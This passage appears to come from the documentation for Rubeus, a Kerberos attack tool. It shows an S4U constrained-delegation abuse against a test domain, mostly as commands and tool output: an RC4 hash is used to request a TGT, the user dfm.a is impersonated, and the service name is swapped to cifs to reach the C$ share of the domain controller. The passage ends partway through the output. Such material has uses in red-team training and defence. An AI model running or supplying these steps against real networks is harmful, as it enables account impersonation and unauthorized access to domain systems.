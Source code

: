     [*] Action: S4U

    [*] Loaded a TGS for TESTLAB.LOCAL\dfm.a@TESTLAB.LOCAL
    [*] Impersonating user 'dfm.a@TESTLAB.LOCAL' to target SPN 'ldap/PRIMARY.testlab.local'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'ldap/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

Where `/ticket:X` is the TGT returned in the first step, and `/tgs` is the S4U2self ticket. Injecting the resulting ticket (manually with [Rubeus.exe ptt /ticket:X](#ptt) or by supplying the `/ptt` flag to the **s4u** command) will allow you access the **ldap** service on primary.testlab.local _as if you are dfm.a_. 

The `/altservice` parameter takes advantage of [Alberto Solino](https://twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (`/altservice:cifs,HOST,...`).

Let's expand on the previous example, forging access to the filesystem on **primary.testlab.local** by abusing its constrained delegation configuration and the alternate service substitution. Let's package it all into one step as well, performing a TGT request, S4U2self process, S4U2proxy execution, and injection of the final ticket:

    C:\Rubeus>dir \\primary.testlab.local\C$
    Access is denied.

    C:\Rubeus>Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):
